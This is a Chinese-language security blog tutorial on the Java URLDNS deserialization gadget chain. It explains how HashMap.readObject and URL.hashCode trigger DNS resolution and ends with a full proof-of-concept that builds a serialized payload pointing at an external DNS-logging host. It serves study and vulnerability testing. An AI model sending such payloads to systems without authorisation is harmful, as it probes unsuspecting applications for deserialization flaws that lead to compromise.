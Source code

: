 # URLDNS链详解

  
  
世界上最简单的 java 链  
&lt;!--more--&gt;  
  
  
先来看一下如何序列化/反序列化  
```java  
package org.example;    
    
import java.io.*;    
    
public class App     
{    
    public static void main( String[] args ) throws Exception    
    {    
        user user = new user();    
        user.setName(&#34;xiaoming&#34;);    
        //序列化输出    
        ObjectOutputStream out = new ObjectOutputStream(System.out);    
        out.writeObject(user);    
        System.out.println();    
        // 序列化写入文件    
        FileOutputStream file = new FileOutputStream(&#34;test.bin&#34;);    
        ObjectOutputStream fout = new ObjectOutputStream(file);    
        fout.writeObject(user);    
        // 序列化写入到变量中    
        ByteArrayOutputStream bout = new ByteArrayOutputStream();    
        ObjectOutputStream jout = new ObjectOutputStream(bout);    
        jout.writeObject(user);    
        byte[] str = bout.toByteArray();    
        System.out.println(new String(str));    
        // 从变量中反序列化    
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(str));    
        user user_d = (user) ois.readObject();    
        System.out.println(user_d.getName());    
    }    
}    
    
class user implements Serializable{    
    private String name;    
    
    public user() {    
    }    
    
    public void setName(String name) {    
        this.name = name;    
    }    
    
    public String getName() {    
        return name;    
    }    
}  
```  
# URLDNS链详解  
## 原理  
`java.util.HashMap`重写了`readObject`方法，在反序列化时调用`hash`函数计算 key 的 hashCode，而`java.net.URL`的 hashCode 在计算时会调用`getHostAddress`来解析域名，从而发出 DNS 请求  
由HashMap 类`readObject`引起，  
```java  
private void readObject(ObjectInputStream s)    
    throws IOException, ClassNotFoundException {    
    reinitialize();    
    
    ObjectInputStream.GetField fields = s.readFields();    
    
    // Read loadFactor (ignore threshold)    
    float lf = fields.get(&#34;loadFactor&#34;, 0.75f);    
    if (lf &lt;= 0 || Float.isNaN(lf))    
        throw new InvalidObjectException(&#34;Illegal load factor: &#34; &#43; lf);    
    
    lf = Math.min(Math.max(0.25f, lf), 4.0f);    
    HashMap.UnsafeHolder.putLoadFactor(this, lf);    
    
    s.readInt();                // Read and ignore number of buckets    
    int mappings = s.readInt(); // Read number of mappings (size)    
    if (mappings &lt; 0) {    
        throw new InvalidObjectException(&#34;Illegal mappings count: &#34; &#43; mappings);    
    } else if (mappings == 0) {    
        // use defaults    
    } else if (mappings &gt; 0) {    
        float fc = (float)mappings / lf &#43; 1.0f;    
        int cap = ((fc &lt; DEFAULT_INITIAL_CAPACITY) ?    
                   DEFAULT_INITIAL_CAPACITY :    
                   (fc &gt;= MAXIMUM_CAPACITY) ?    
                   MAXIMUM_CAPACITY :    
                   tableSizeFor((int)fc));    
        float ft = (float)cap * lf;    
        threshold = ((cap &lt; MAXIMUM_CAPACITY &amp;&amp; ft &lt; MAXIMUM_CAPACITY) ?    
                     (int)ft : Integer.MAX_VALUE);    
    
        // Check Map.Entry[].class since it&#39;s the nearest public type to    
        // what we&#39;re actually creating.        SharedSecrets.getJavaObjectInputStreamAccess().checkArray(s, Map.Entry[].class, cap);    
        @SuppressWarnings({&#34;rawtypes&#34;,&#34;unchecked&#34;})    
        Node&lt;K,V&gt;[] tab = (Node&lt;K,V&gt;[])new Node[cap];    
        table = tab;    
    
        // Read the keys and values, and put the mappings in the HashMap    
        for (int i = 0; i &lt; mappings; i&#43;&#43;) {    
            @SuppressWarnings(&#34;unchecked&#34;)    
                K key = (K) s.readObject();    
            @SuppressWarnings(&#34;unchecked&#34;)    
                V value = (V) s.readObject();    
            putVal(hash(key), key, value, false, false);    
        }    
    }    
}  
```  
在`HashMap`的键名计算了 hash，  
`putVal(hash(key), key, value, false, false);`  
跟进查看一下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141127560.png)
调用了`key.hashCode()`，而这里的 key 是可控的，就是传入的`java.net.URL`，跟进查看一下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141150723.png)
这里`hashCode==-1`，重新进行`hashCode()`方法计算，跟进`handler`查看调用了哪一个`hashCode()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141151442.png)
`transient关键字，修饰 Java 序列化对象时，不需要序列化属性`也就是`handler`属性不参与序列化，直接跟进`URLStreamHandler`查看一下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141152682.png)
这里调用了`getHostAddress`跟进查看一下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141153663.png)
又调用了`java.net.URL`的`getHostAddress`方法  
继续跟进  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141154024.png)
进入到`InetAddress.getByName(host);`便会触发`DNS`请求  
继续回到`readObject()`中，看看如何给`key`赋值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141230086.png)
`key`是从`K key = (K) s.readObject();`这串代码，也就是`readObject`中得到的，说明之前是`writeObject`会写入 key  
HashMap#writeObject  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141232544.png)
进入了`internalWriteEntries()`跟进查看  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141232079.png)
这里的`key`以及`value`是从 tab 中取的，而 tab 的值即`HashMap`中 table 的值。  
想要修改table的值，就需要调用`HashMap#put`方法，而HashMap#put方法中也会对key调用一次hash方法，所以这里也会产生一次dns查询  
为了避免这次 dns 查询，我们将hashCode设置不为`-1`的其他值  
构造完整poc  
```java  
package org.example;    
    
import java.io.*;    
import java.lang.reflect.Field;    
import java.net.URL;    
import java.util.HashMap;    
    
    
public class URLDNS {    
    public static void main(String[] args) throws Exception {    
        HashMap hashmap = new HashMap();    
        URL url = new URL(&#34;http://47894df839.ipv6.1433.eu.org&#34;);    
        Field f = Class.forName(&#34;java.net.URL&#34;).getDeclaredField(&#34;hashCode&#34;);    
        f.setAccessible(true);    
        f.set(url,1);    
        hashmap.put(url,1);    
        f.set(url,-1);    
        ByteArrayOutputStream b = new ByteArrayOutputStream();    
        ObjectOutputStream oos = new ObjectOutputStream(b);    
        oos.writeObject(hashmap);    
    
        byte[] str = b.toByteArray();    
        System.out.println(str);    
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(str));    
        ois.readObject();    
    
    
    }    
}  
```  
调用栈如下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141314961.png)
  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/urldns%E9%93%BE%E8%AF%A6%E8%A7%A3/  

